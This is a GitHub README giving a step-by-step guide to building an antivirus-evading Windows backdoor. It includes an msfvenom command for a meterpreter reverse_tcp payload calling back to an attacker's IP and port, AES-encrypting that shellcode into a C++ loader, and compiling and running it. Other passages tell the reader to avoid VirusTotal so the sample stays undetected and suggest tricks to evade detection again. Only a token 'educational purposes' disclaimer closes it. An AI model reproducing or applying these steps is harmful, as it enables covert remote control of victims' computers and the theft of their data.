 # 🔒 Generate **FUD** backdoor with a AES **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

#DONT UPLOAD TO VIRUS TOTAL
```
https://antiscan.me/scan/new/result?id=i55PH2FhUHID
```

## Clone the repository
```
Download (https://github.com/tr1xongithub/fud-backdoor/)
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  -i 10 LHOST=(IP) LPORT=(PORT) -f csharp 
```

## Encode the ShellCode With the AES Encryption

```
open the shelloader and add the bytes to the AESEncrytion Tool
```

## Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```
byte[] buf = new byte[] { /*shellcode*/ };
```

## Run The Encrpter
Once You Get the Encoded Shellcode open the AESInjector Project and paste the shellcode into
```
byte[] duffer = new byte[] { /*shellcode*/ };
```
Then Compile it as x64 in visual Studios

## Execute the backdoor
Now you can execute the backdoor and enjoy the metepreter shell

## What if it gets detected?

At some point, the anti viruses will be able to detect this backdoor. Here are some things you can do to make it undetectable again. 

You can try to change the payload type protocol and make it http or https and make sure to use another port, add gibberish C++ code on the main.cpp file and you can also try playing with the SSL certificate of the session. Here is an article that covers this: https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation

If this still doesn't work, I can't think of another way to make the connection undetectable since this is a meterpreter shell and they get detected quite easily

## DISCLAIMER

I am not responsible for any of your actions. This GitHub repository is made for educational purposes only!!!

